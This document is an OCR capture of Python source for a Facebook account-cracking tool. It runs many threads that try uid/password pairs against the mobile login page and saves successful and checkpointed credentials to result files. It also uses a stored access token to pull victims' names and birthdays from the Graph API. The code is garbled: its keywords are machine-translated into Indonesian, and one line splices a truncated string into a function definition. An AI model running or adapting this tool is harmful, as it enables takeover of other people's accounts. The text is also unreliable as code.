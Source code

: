 				rex  =  permintaan . post ( 'https://mbasic.facebook.com/login.php' , data = { 'email' : uid , 'pass' : pw , 'login' : 'submit' }, headers = { 'user-agent' : ua })
				xo  =  rex . isi
				jika  'mbasic_logout_button'  di  xo  atau  'save-device'  di  xo :
					print ( ' \r   \033 [0;92m* --> '  + uid +  '|'  +  pw  +  ' ' )
					baiklah . tambahkan ( uid + '|' + pw )
					simpan  =  buka ( 'results/OK-%s-%s-%s.txt'  % ( ha , op , ta ), 'a' )
					simpan . tulis ( ' * --> ' + str ( uid ) + '|' + str ( pw ) + ' \n ' )
					simpan . tutup ()
					merusak
					melanjutkan
				jika  'pos pemeriksaan'  di  xo :
					coba :
						token  =  buka ( 'login.txt' ). baca ()
						url  = ( "https://graph.facebook.com/" + uid + "?access_token=" + token )
						data  =  s . dapatkan ( url ). json ()
						ttl  =  data [ 'ulang tahun' ]. ganti ( "/" , "-" )
						nama  =  data [ 'nama' ]
						print ( ' \r   \033 [0;93m* --> '  + uid +  '|'  +  pw  +  '|'  +  ttl )
						cp . tambahkan ( uid + '|' + pw + '|' + ttl )
						simpan  =  buka ( 'results/CP-%s-%s-%s.txt'  % ( ha , op , ta ), 'a' )
						simpan . tulis ( ' * --> ' + str ( uid ) + '|' + str ( pw ) + '|' + ttl + ' \n ' )
						simpan . tutup ()
						merusak
					kecuali ( KeyError , IOError ):
						ttl  =  " "
					kecuali : lulus
					print ( ' \r   \033 [0;93m* --> '  + uid +  '|'  +  pw  +  ' ' )
					cp . tambahkan ( uid + '|' + pw )
					simpan  =  buka ( 'results/CP-%s-%s-%s.txt'  % ( ha , op , ta ), 'a' )
					simpan . tulis ( ' * --> ' + str ( uid ) + '|' + str ( pw ) + ' \n ' )
					simpan . tutup ()
					merusak
					melanjutkan
					lingkaran  +=  1
		kecuali :
			lulus
	p  =  ThreadPool ( 20 )
	hal . peta ( utama , id )
	keluar ( " \n  \033 [0;97m[ \033 [0;96m# \033 [0;97m] Selesai" )
	
### SETTING UA
def  settua ():
	ask  =  raw_input ( " \n  \033 [0;97m[ \033 [0;93m? \033 [0;97m] Anda ingin mengganti Agen Pengguna? [Y/t] : " )
	jika  bertanya  == "" :
		menu ()
	elif  bertanya  ==  "y"  atau  bertanya  ==  "Y" :
		coba :
			print ( " \n  \033 [0;97m[ \033 [0;93m* \033 [0;97m] Ketik di pencarian chrome : My User Agent" )
			ua  =  raw_input ( " \033 [0;97m[ \033 [0;96m+ \033 [0;97m] Agen Pengguna : " )
			uas  =  buka ( ".ua" , "w" )
			uas . tulis ( u )
			uas . tutup ()
			print ( " \033 [0;97m[ \033 [0;92m✓ \033 [0;97m] Sukses mengganti User-Adef  cek_ingfo ():
    coba :
        __cindy__ =  buka ( 'login.txt' , 'r' ). baca ()
    kecuali ( KeyError , IOError ):
        print ( p + ' \n Token Facebook Erorr !!' )
        os . sistem ( 'rm -rf login.txt' )
        waktu . tidur ( 0,01 )
        masuk ()
    coba :